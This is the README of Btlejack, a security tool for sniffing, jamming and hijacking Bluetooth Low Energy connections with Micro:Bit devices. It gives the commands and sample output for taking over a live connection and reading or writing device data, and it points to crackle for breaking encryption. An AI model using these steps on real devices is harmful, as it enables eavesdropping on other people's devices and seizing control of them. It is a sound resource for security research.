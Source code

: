 BtleJack: a new Bluetooth Low Energy swiss-army knife
#####################################################

Btlejack provides everything you need to sniff, jam and hijack Bluetooth Low Energy devices. It relies on one or more `BBC Micro:Bit <http://microbit.org/>`_. devices running a dedicated firmware.

**This tool only supports Bluetooth Low Energy 4.x.**

How to install
==============

First, install the ``btlejack`` Python3 client software with Pip:

::

  $ sudo pip3 install btlejack


Then, connect your Micro:Bit device to your computer with a USB cable, mount the associated mass storage device, and issue the following command:

::

  $ btlejack -i


This will program every Micro:Bit device connected to your computer, and make
them ready to use with Btlejack. It will use the correct firmware version for the current client software, so it is highly recommended to perform this firmware installation procedure each time you update Btlejack.

Keep your microbits connected and you're all set !

How to use Btlejack
===================

Using Btlejack is quite easy. Btlejack can:

- sniff an existing BLE connection
- sniff new BLE connections
- jam an existing BLE connection
- hijack an existing BLE connection
- export captured packets to various PCAP formats

Sniffing an existing connection
-------------------------------

First, find an existing connection to target with ``btlejack``:

::

  $ btlejack -s
  BtleJack version 1.1

  [i] Enumerating existing connections ...
  [ - 54 dBm] 0xcd91d517 | pkts: 1
  [ - 46 dBm] 0xcd91d517 | pkts: 2

The first value (in dBm) shows the power of the signal, the greater this value is the better the sniffed connection will be.

The second value (hex) is the associated *access address*, a 32-bit value identifying a link between two bluetooth low energy compatible devices.

The last value is the number of packets seen with this *access address*. The higher this value is, the more probable the corresponding *access address* is used.

Then, use the `-f` option to follow a specific connection:

::

  $ btlejack -f 0xdda4845e
  BtleJack version 1.1

  [i] Detected sniffers:
   > Sniffer #0: fw version 1.1

  [i] Synchronizing with connection 0xdda4845e ...
  ✓ CRCInit: 0x2a035e
  ✓ Channel Map = 0x1fffffffff
  ✓ Hop interval = 39
  ✓ Hop increment = 15
  [i] Synchronized, packet capture in progress ...
  LL Data: 02 07 03 00 04 00 0a 03 00
  LL Data: 0a 08 04 00 04 00 0b 5a 69 70
  LL Data: 02 07 03 00 04 00 0a 03 00
  LL Data: 0a 08 04 00 04 00 0b 5a 69 70


**If you are using more than 1 microbit, Btlejack will parallelize some of the sniffing operations in order to speed up the connection parametres recovery !**

Sniffing for new connections
----------------------------

The  ``-c`` option supported by ``btlejack`` allows you to specify the target BD address, or you may want to use ``any`` to capture any new connection created.

::

  $ btlejack -c any
  BtleJack version 1.1

  [i] Detected sniffers:
   > Sniffer #0: version 1.1
   > Sniffer #1: version 1.1
  LL Data: 05 22 df b4 6f 95 c5 55 c0 0a f6 99 23 40 1d 7b 2f 0a 9a f4 93 01 12 00 27 00 00 00 d0 07 ff ff ff ff 1f 0b
  [i] Got CONNECT_REQ packet from 55:c5:95:6f:b4:df to 40:23:99:f6:0a:c0
   |-- Access Address: 0x0a2f7b1d
   |-- CRC Init value: 0x93f49a
   |-- Hop interval: 39
   |-- Hop increment: 11
   |-- Channel Map: 1fffffffff
   |-- Timeout: 20000 ms

  LL Data: 03 09 08 0f 00 00 00 00 00 00 00
  LL Data: 03 09 08 0f 00 00 00 00 00 00 00
  LL Data: 0b 06 0c 08 0f 00 09 41
  LL Data: 03 06 0c 07 1d 00 d3 07

or you may also want to specify the target BD address:

::

  $ btlejack -c 03:e1:f0:00:11:22


**If you connect at least 3 microbits at the same time on your computer, Btlejack will be able to sniff on every advertising channels and has far more chance to capture the connection request.**

Jamming a connection
--------------------

Once a connection identified by its *access address*, you can provide jam it by using the ``-j`` option:

::

  $ btlejack -f 0x129f3244 -j̀


Hijacking a BLE connection
--------------------------

Btlejack is also able to hijack an existing connection, use the ``-t`` option to do so. Once hijacked, Btlejack will give you a prompt allowing you to interact with the hijacked device.

First, hijack an existing connection:

::

  $ btlejack -f 0x9c68fd30 -t -m 0x1fffffffff
  BtleJack version 1.1

  [i] Using cached parameters (created on 2018-08-11 01:48:24)
  [i] Detected sniffers:
   > Sniffer #0: fw version 1.1

  [i] Synchronizing with connection 0x9c68fd30 ...
  ✓ CRCInit: 0x81f733
  ✓ Channel map is provided: 0x1fffffffff
  ✓ Hop interval = 39
  ✓ Hop increment = 9
  [i] Synchronized, hijacking in progress ...
  [i] Connection successfully hijacked, it is all yours \o/
  btlejack>

Then use the following commands to interact with the device:
- **discover**: performs services and characteristics enumeration, will give you all the information about services and characteristics
- **write**: write data to a specific value handle
- **read**: read data from a specific value handle
- **ll**: sends a raw link-layer packet (for ninjas)

*discover* command
^^^^^^^^^^^^^^^^^^

The ``discover`` command will send and receive Bluetooth LE packets and retrieve all the services UUIDs and parameters, as well as characteristics UUIDs and parameters:

::

  btlejack> discover
  start: 0001 end: 0005
  start: 0014 end: 001a
  start: 0028 end: ffff
   Discovered services:
  Service UUID: 1801
   Characteristic UUID: 2a05
     | handle: 0002
     | properties: indicate  (20)
     \ value handle: 0003

  Service UUID: 1800
   Characteristic UUID: 2a04
     | handle: 0019
     | properties: read  (02)
     \ value handle: 001a

   Characteristic UUID: 2a00
     | handle: 0015
     | properties: read  (02)
     \ value handle: 0016

   Characteristic UUID: 2a01
     | handle: 0017
     | properties: read  (02)
     \ value handle: 0018

  Service UUID: 1824
   Characteristic UUID: 2abc
     | handle: 0029
     | properties: write indicate  (28)
     \ value handle: 002a

*read* command
^^^^^^^^^^^^^^

The ``read`` command accepts a single parameter, the value handle corresponding to the characteristic you want to read from:

::

  btlejack> read 0x16
  read>> 4c 47 20 77 65 62 4f 53 20 54 56

*write* command
^^^^^^^^^^^^^^^

The ``write`` command accepts three parameters:

::

  btlejack> write <value handle> <data format> <data>


Supported data formats:

- ``hex``: hex data (i.e. "414261")
- ``str``: text string, may be encapsulated in double quotes

*ll* command
^^^^^^^^^^^^

This last command allows you to send Bluetooth Low Energy Link-layer PDUs, in hex form, as specified in Volume 6, Part B, Chapter 2.4.


PCAP file export
----------------

One interesting feature of Btlejack is the possibility to export the captured data to a PCAP file.

Btlejack supports the following DLT formats:

* DLT_BLUETOOTH_LE_LL_WITH_PHDR (same)
* DLT_NORDIC_BLE (the one used by Nordic' sniffer)
* DLT_BLUETOOTH_LE_LL (supported on latest versions of Wireshark)

The output file may be specified using the `-o` option, while the output format may be specified with the `-x` option. Valid formats values are: `ll_phdr`, `nordic`, or `pcap` (default).

::

  $ btlejack -f 0xac56bc12 -x nordic -o capture.nordic.pcap


The ``ll_phdr`` export type is useful when sniffing an encrypted connection, as it is also supported by `crackle <https://github.com/mikeryan/crackle>`_. So if you want to sniff and break encrypted connections, this is the way to go.

You may also need to tell crackle to use a specific cracking strategy, by using the `-s` option:

::

  $ crackle -i some.pcap -s 1

